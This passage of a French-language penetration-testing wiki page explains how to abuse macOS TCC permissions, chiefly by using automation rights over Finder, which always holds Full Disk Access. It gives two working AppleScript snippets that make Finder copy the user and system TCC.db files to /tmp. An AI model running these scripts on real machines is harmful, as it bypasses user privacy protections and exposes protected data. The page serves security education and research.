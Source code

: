 Si à un moment donné vous parvenez à obtenir un accès en écriture sur une base de données TCC, vous pouvez utiliser quelque chose comme ce qui suit pour ajouter une entrée (supprimez les commentaires) :

<details><summary>Exemple d'insertion dans TCC</summary></details>

### Charges TCC

Si vous avez réussi à entrer dans une application avec certaines autorisations TCC, consultez la page suivante avec des charges TCC pour les abuser :

{{#ref}}
macos-tcc-payloads.md
{{#endref}}

### Événements Apple

Découvrez les Événements Apple dans :

{{#ref}}
macos-apple-events.md
{{#endref}}

### Automatisation (Finder) à FDA\*

Le nom TCC de l'autorisation d'automatisation est : **`kTCCServiceAppleEvents`**\
Cette autorisation TCC spécifique indique également **l'application qui peut être gérée** dans la base de données TCC (donc les autorisations ne permettent pas simplement de gérer tout).

**Finder** est une application qui **a toujours FDA** (même si elle n'apparaît pas dans l'interface utilisateur), donc si vous avez des privilèges **d'automatisation** sur elle, vous pouvez abuser de ses privilèges pour **lui faire effectuer certaines actions**.\
Dans ce cas, votre application aurait besoin de l'autorisation **`kTCCServiceAppleEvents`** sur **`com.apple.Finder`**.

{{#tabs}}
{{#tab name="Voler les utilisateurs TCC.db"}}
```applescript
# This AppleScript will copy the system TCC database into /tmp
osascript<<EOD
tell application "Finder"
set homeFolder to path to home folder as string
set sourceFile to (homeFolder & "Library:Application Support:com.apple.TCC:TCC.db") as alias
set targetFolder to POSIX file "/tmp" as alias
duplicate file sourceFile to targetFolder with replacing
end tell
EOD
```
{{#endtab}}

{{#tab name="Voler les systèmes TCC.db"}}
```applescript
osascript<<EOD
tell application "Finder"
set sourceFile to POSIX file "/Library/Application Support/com.apple.TCC/TCC.db" as alias
set targetFolder to POSIX file "/tmp" as alias
duplicate file sourceFile to targetFolder with replacing
end tell
EOD
```
{{#endtab}}
{{#endtabs}}
